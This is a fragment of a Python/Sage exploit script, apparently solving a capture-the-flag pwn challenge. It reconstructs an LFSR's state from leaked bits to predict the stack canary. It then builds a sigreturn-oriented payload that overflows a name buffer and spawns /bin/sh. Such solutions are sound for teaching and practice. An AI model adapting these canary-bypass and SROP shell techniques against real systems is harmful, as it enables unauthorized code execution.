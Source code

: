 ```python
leaks = (leaks<<12) | (leak3>>28)
leaks = (leaks<<4) | (leak5>>36)&0xf

# know we will use SAGE to calculate the initial state of the LSFR from its leaked output
L = companion_matrix(GF(2)['x']("x^64 + x^5 + x^3  + x^2 + 1"), format="bottom")
one = vector(GF(2),64,[0]*63 + [1])

F=GF(2 ,'z')

R = F['k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63,k64']; (k0, k1, k2, k3, k4, k5, k6, k7, k8, k9, k10, k11, k12, k13, k14, k15, k16, k17, k18, k19, k20, k21, k22, k23, k24, k25, k26, k27, k28, k29, k30, k31, k32, k33, k34, k35, k36, k37, k38, k39, k40, k41, k42, k43, k44, k45, k46, k47, k48, k49, k50, k51, k52, k53, k54, k55, k56, k57, k58, k59, k60, k61, k62, k63,) = R._first_ngens(64)
key = vector (R, [k0,k1,k2,k3,k4,k5,k6,k7,k8,k9,k10,k11,k12,k13,k14,k15,k16,k17,k18,k19,k20,k21,k22,k23,k24,k25,k26,k27,k28,k29,k30,k31,k32,k33,k34,k35,k36,k37,k38,k39,k40,k41,k42,k43,k44,k45,k46,k47,k48,k49,k50,k51,k52,k53,k54,k55,k56,k57,k58,k59,k60,k61,k62,k63])

a = L*key + one
clocks = 64 + 64 - 1

for i in range(clocks):
 a = L*a + one

kmat = matrix(R, 64 ,64)
for i in range(64):
 for j in range(64):
   kmat[i,j] = a[i].coefficient(key[j])

kvec = vector(R,64)
for i in range(64):
  kvec[i] = a[i].constant_coefficient()

padlen = 64  -len( list(( ZZ(leaks).digits(base=2 )[::-1] )))
c = vector(GF(2), [0]*padlen + list(( ZZ(leaks).digits(base=2)[::-1] )))
result = kmat.inverse() * (c-kvec)

# print initial_state returned by sage script
rand_state = int(''.join(str(_) for _ in list(result )),2)
print('result = '+hex(rand_state))

# now calculate first 64bit output of lfsr, which is the canary value
canary = rando(64)
print('canary = '+hex(canary))

# Gadgets for the srop shellcode
atou64 = leak3 + 0x3e0
syscall_ret = leak6 + 0x1002
name_addr = leak1 + 0x2180	  # name_addr + 0x8 points to "/bin/sh"
# generate srop frame
frame = SigreturnFrame()
frame.rip = syscall_ret
frame.rax = 0x3b
frame.rdi = name_addr + 8
# our payload
rop = p64(atou64) + p64(syscall_ret) + bytes(frame)
name = b'15AAA ; /bin/sh\x00' + b'A'*0x18 
name += p64(canary) + b'B'*8 + rop

# play some rounds of game
play_game(11)
# send our payload
```